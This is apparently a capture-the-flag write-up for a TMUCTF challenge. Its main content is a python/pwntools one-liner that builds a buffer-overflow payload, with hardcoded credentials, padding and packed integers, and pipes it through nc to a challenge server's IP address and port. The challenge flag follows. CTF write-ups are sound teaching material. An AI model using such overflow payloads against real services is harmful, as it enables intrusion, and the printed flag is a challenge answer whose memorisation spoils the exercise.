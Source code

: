 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge just needs some overflows.   
```bash
python2.7 -c "import pwn; print 'AlexTheUser\n' + '4l3x7h3p455w0rd\00' + 'A'*48 + 'AlexTheUser\00' + 'A'*52 + 'A'*12 + pwn.p32(233) + pwn.p32(30) + pwn.p32(187) + pwn.p32(76) + pwn.p32(123)" | nc 194.5.207.113 7020
```   
The flag:
```
TMUCTF{7h3_6375_func710n_15_d4n63r0u5_4nd_5h0uld_n07_b3_u53d}
```
